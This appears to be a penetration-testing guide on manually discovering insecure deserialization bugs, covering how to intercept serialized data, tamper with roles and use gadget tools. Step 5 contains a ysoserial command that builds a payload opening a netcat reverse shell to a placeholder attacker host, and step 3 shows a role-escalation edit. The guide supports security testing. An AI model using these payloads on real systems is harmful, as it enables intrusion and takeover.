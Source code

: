 Manually discovering Insecure Deserialization vulnerabilities involves identifying areas where serialized data is being processed and testing how the application handles modified serialized inputs. Here's a step-by-step guide for manual discovery:

## 1. Identify Serialized Data
- Look for places in the application where serialized data is used. This can include:
  - **Cookies:** Serialized session objects stored in cookies.
  - **HTTP Parameters:** Data passed through URL parameters or request bodies.
  - **File Uploads:** Files that contain serialized objects (e.g., serialized Java objects or PHP sessions).

## 2. Capture and Analyze Serialized Data
- Use tools like **Burp Suite** or **OWASP ZAP** to intercept and capture serialized data. Analyze the data to determine its structure.
  - For example, serialized data may look like:
    - JSON: `{ "user": "attacker", "role": "user" }`
    - Base64-encoded data: `rO0ABXNyACpvcmcuYXBhY2hlLmNvbW1vbnMubGFuZy5pbnZva2UuSW52b2tlci5JbnZva2F0aW9uI0Aw`

## 3. Modify and Resend Serialized Data
- Modify the captured serialized data and resend it to the server to test how the application handles deserialization.
  - **Example:** Change user roles or object values.
    ```json
    { "user": "attacker", "role": "admin" }
    ```
  - **Base64 Example:** Modify the base64-encoded serialized object and observe the application’s response.

## 4. Test with Known Deserialization Gadgets
- For languages like Java, PHP, or Python, use known deserialization gadgets (vulnerable objects or classes) to test for code execution or other vulnerabilities.
  - **Java Example:** Inject a serialized payload that triggers the **Commons Collections** deserialization vulnerability.

## 5. Fuzzing with Tools (e.g., ysoserial, PHPGGC)
- Use tools like **ysoserial** (for Java) or **PHPGGC** (for PHP) to generate malicious serialized payloads and test the application.
  - **ysoserial** Example:
    ```bash
    java -jar ysoserial.jar CommonsCollections1 'nc -e /bin/bash <attack_ip> <attack_port>' > payload.ser
    ```
  - Send the generated payload to the application.

## 6. Detect Deserialization Errors and Stack Traces
- Pay attention to any stack traces or errors returned by the application when sending modified serialized data. These can indicate that deserialization is occurring and may provide useful information about the vulnerable classes or objects being used.
